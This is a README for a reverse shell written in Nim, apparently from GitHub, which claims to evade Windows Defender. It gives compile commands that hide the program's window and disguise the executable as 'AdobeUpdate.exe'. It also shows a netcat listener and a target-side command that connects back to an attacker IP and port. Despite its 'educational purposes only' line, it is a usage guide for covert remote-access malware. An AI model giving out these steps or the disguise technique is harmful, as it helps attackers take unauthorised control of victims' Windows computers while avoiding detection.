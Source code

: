 # Nim Reverse Shell

A simple reverse shell written in Nim that bypasses Windows Defender detection (see the "Tested Operating Systems" section below for more details). **This code is made for educational purposes only**.


## Tested Operating Systems

- Windows 10 (10.0.19045) 
- Windows 11 (10.0.22621)


### Installation

```bash
sudo apt install mingw-w64
sudo apt install nim
```

The code can be compiled in various ways using Nim. In this example, the code is compiled to EXE using MinGW and runs in the victim's background once executed (thanks to the "--app:gui" flag). Update IP and port

```bash
nim c -d:mingw --app:gui rev_shell.nim
nim c -d:mingw --app:gui --opt:speed -o:AdobeUpdate.exe rev-shell.nim
  -d: define compiler
  --app: generate gui app
  --opt: optimize for speed
  -o: output
```

### Execution
Cybersecurity professional
```bash
nc -lvnp 1337
```
Target System
```bash
AdobeUpdate.exe 10.10.5.25 1337              --defaults to static IP in code if no arguments given
```




